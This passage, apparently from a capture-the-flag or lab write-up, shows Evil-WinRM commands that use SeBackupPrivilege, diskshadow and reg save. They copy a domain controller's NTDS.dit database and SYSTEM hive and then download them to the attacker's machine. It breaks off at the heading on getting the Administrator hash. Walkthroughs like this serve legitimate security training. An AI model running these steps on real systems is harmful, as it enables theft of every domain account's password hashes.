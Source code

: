 Once all the files have been uploaded, we can begin the process of extracting the NTDS.dit file

First, run diskshadow on the `disk_shadow.txt` file.

![disk_shadow](images/disk_shadow.png)

Next, import the SeBackupPrivilege dlls as modules.

```powershell
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Then, we can copy the NTDS.dit file from the backup.

```powershell
*Evil-WinRM* PS C:\tmp> Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\tmp\ntds.dit
```

Finally, we can save the SYSTEM registry hive.

```powershell
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
```

Now, we can download the files to our local machine.

![download_files](images/download_files.png)

## Getting Administrator hash
